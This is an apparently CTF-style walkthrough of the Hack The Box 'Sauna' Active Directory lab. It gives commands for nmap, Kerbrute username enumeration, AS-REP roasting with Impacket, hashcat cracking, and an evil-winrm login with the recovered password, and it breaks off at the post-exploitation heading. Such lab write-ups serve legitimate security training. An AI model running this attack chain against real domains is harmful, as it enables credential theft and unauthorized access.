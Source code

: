 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Copy of Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these usernames and create a list with all possible usernames for everyone in the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" and create a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Once we get a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration





